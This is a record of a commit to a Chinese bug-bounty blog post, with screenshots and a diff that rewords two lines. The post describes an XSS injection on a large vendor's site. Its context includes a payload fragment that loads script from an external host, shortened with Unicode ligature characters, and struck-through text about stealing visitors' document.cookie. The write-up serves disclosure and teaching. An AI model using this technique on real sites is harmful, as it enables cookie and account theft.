

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-06-19-SRC实战-对某大型厂商外围打点渗透.md, in a window 1280 px wide and 1400 px high, scrolled down 782 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2023-06-19-SRC实战-对某大型厂商外围打点渗透.md

````diff
--- a/_posts/2023-06-19-SRC实战-对某大型厂商外围打点渗透.md
+++ b/_posts/2023-06-19-SRC实战-对某大型厂商外围打点渗透.md
@@ -49,7 +49,7 @@ payload：
 当时就想到了短域名等方案，但都太长了
 然后想到干脆注册个域名算了，但又发现这种5字符长度的域名都太贵了
 
-~~经过我苦苦思考~~，终于发现了一个特别奇淫巧计的规则能利用：utf-8编码字母符号
+~~经过我苦苦思考~~，终于发现了一个特别隐蔽的规则能利用：utf-8编码字母符号
 众所周知，utf-8字符集里有各种各样的字母符号，比如像：
 ```
 ™  #8482号字符
@@ -73,7 +73,7 @@ final payload:
   " script=http//㎭q.cc
 ```
 
-~~最后顺利注入，挂了个document.cookie，用户点进我的个人主页，我都能获取到cookie、登陆设备、账号等敏感信息~~
+~~最后顺利注入，挂document.cookie，只要进我的个人主页，就能获取到cookie、登陆设备、账号等敏感信息~~
 最后顺利注入，提交了漏洞信息，并且管理员处理的很快，喜提中危，不愧是大厂
 
 注意，本文最终payload并非真正payload，厂商自带waf，需要额外绕过一下，不在赘述
````
